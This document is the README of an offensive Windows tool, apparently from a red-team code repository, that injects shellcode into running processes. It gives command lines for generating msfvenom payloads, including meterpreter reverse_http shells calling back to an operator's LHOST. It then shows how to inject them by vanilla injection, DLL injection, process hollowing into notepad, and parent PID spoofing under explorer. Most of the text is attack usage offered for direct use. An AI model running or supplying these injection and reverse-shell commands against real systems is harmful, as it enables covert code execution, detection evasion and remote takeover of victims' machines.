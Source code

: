 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 3 process injection techniques.

	1) Vanila Process Injection
	2) DLL Injection
	3) Process Hollowing
	4) Parent PID Spoofing

Vanila Process Injection, Process Hollowing and Parent PID Spoofing
Currently the program accepts shellcode in 3 formats 

	1) base64
	2) hex
	3) C

### Command Line Usage

	Generating shellcode in base64 format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" | base64
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:base64 /t:1

	Generating shellcode in hex format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f hex
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:hex /t:1

	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f c
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:1

	DLL Injection
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f dll > Desktop/calc.dll
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\calc.dll" /t:2
	
	Process Hollowing
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:""C:\Users\User\Desktop\shellcode.txt" /f:c /t:3
	
	Parent PID Spoofing
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:4


### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)
[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)

Credits also goes to Aaron Bray (https://github.com/ambray) for Process Hollowing code
